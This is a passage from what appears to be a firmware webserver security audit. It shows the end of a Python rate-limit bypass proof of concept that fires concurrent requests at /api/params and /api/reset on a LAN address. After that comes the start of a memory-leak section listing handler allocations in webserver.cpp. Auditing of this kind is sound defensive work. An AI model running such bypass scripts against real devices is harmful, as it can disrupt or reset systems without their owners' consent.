 ```python

        return False

# Execute attack
if __name__ == "__main__":
    attacker = RateLimitBypassAttack("192.168.1.100")

    print("=" * 60)
    print("Testing /api/params (300ms window)")
    print("=" * 60)
    attacker.exploit(concurrent_requests=8)

    time.sleep(1)

    print("\n" + "=" * 60)
    print("Testing /api/reset (1000ms window) - HIGHEST IMPACT")
    print("=" * 60)
    attacker2 = RateLimitBypassAttack("192.168.1.100")
    attacker2.exploit(concurrent_requests=16)
```

---

## VULNERABILITY 3: Memory Leaks - Heap Analysis

### File Locations

**File:** `/Users/spectrasynq/Workspace_Management/Software/K1.reinvented/firmware/src/webserver.cpp`

Lines 403-420: Handler allocations in init_webserver()

```cpp
403: registerGetHandler(server, ROUTE_PATTERNS, new GetPatternsHandler());
404: registerGetHandler(server, ROUTE_PARAMS, new GetParamsHandler());
405: registerGetHandler(server, ROUTE_PALETTES, new GetPalettesHandler());
406: registerGetHandler(server, ROUTE_DEVICE_INFO, new GetDeviceInfoHandler());
407: registerGetHandler(server, ROUTE_DEVICE_PERFORMANCE, new GetDevicePerformanceHandler());
408: registerGetHandler(server, ROUTE_TEST_CONNECTION, new GetTestConnectionHandler());

411: registerPostHandler(server, ROUTE_PARAMS, new PostParamsHandler());
412: registerPostHandler(server, ROUTE_SELECT, new PostSelectHandler());
413: registerPostHandler(server, ROUTE_RESET, new PostResetHandler());
414: registerPostHandler(server, ROUTE_AUDIO_CONFIG, new PostAudioConfigHandler());
415: registerPostHandler(server, ROUTE_WIFI_LINK_OPTIONS, new PostWifiLinkOptionsHandler());
416: registerPostHandler(server, ROUTE_CONFIG_RESTORE, new PostConfigRestoreHandler());

419: registerGetHandler(server, ROUTE_AUDIO_CONFIG, new GetAudioConfigHandler());
420: registerGetHandler(server, ROUTE_CONFIG_BACKUP, new GetConfigBackupHandler());
```

### Handler Object Sizes
